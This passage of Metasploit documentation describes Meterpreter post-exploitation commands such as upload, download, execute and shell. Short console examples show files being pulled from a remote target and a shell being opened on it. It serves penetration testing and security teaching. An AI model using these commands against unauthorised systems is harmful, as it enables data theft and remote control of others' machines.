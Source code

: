 **upload**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.bin /home/sinn3r/Desktop
[*] uploading  : /tmp/data.bin -> /home/sinn3r/Desktop
[*] uploaded   : /tmp/data.bin -> /home/sinn3r/Desktop/data.bin
meterpreter > 
```

**download**

The ```download``` command allows you to download a file from the remote target to your machine. For example:

```
meterpreter > download /home/sinn3r/Desktop/data.bin /tmp
[*] downloading: /home/sinn3r/Desktop/data.bin -> /tmp/data.bin
[*] download   : /home/sinn3r/Desktop/data.bin -> /tmp/data.bin
```

**ifconfig/ipconfig**

```ifconfig``` and ```ipconfig``` are actually the same thing. They allow you to see the network
interfaces on the remote machine.

**getuid**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
```

**execute**

The ```execute``` command allows you to execute a command or file on the remote machine.
For example:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 5292 created.
```

**ps**

The ```ps``` command lists the running processes on the remote machine.

**shell**

The ```shell``` command allows you to interact with the remote machine's terminal (or shell). For
example:

```
meterpreter > shell
Process 5302 created.
Channel 6 created.
$
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
```